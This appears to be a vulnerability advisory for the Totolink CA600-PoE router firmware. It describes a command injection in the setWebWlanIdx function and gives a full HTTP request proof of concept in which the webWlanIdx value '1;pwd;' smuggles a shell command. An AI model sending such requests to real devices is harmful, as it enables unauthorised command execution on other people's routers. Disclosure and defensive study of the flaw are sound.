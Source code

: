 ## Totolink CA600-PoE command injection

### Overview

* Vendor: TOTOLINK

* Product: Totolink CA600-PoE
* Version: V5.3c.6665_B20180820

* Manufacturer's address：https://www.totolink.net/
* Firmware download address ：https://totolink.id/data/upload/20181119/1da7db5e97165fe93f8a139889875bca.zip

### Vulnerability details

Totolink CA600-PoE V5.3c.6665_B20180820 was found to contain a command injection vulnerability in the `setWebWlanIdx` function via the `webWlanIdx` parameter. This vulnerability allows attackers to execute arbitrary commands via a crafted request.

![image](./img/1.png)

![image](./img/2.png)

#### PoC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 108
Origin: http://192.168.0.254
Connection: close
Referer: http://192.168.0.254
Cookie: SESSION_ID=2:1801026000:2

{
    "topicurl":"setting/setWebWlanIdx",
    "webWlanIdx":"1;pwd;"
}

```

